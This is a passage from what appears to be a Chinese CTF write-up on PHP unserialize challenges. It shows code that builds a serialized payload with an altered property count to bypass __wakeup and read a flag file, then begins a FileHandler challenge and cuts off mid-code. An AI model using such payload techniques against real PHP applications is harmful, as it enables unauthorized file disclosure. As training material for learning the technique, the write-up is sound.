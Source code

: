 ```php
?>
```



构造思路：

```php
<?php
class Demo {
private $file = 'index.php';
//protected $file1 = 'index.php';
public function __construct($file) {
    $this->file = $file;
    //$this->file1 = $file1;
}
    
function __destruct() {
    echo @highlight_file($this->file, true);
}
    
function __wakeup() {
    if ($this->file != 'index.php') {
        //the secret is in the fl4g.php
        $this->file = 'index.php';
    }
}
    
}

$a = new Demo("fl4g.php");
echo serialize($a)."\n";
//O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}
echo base64_encode('O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}');
```

### 3

题目：

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
```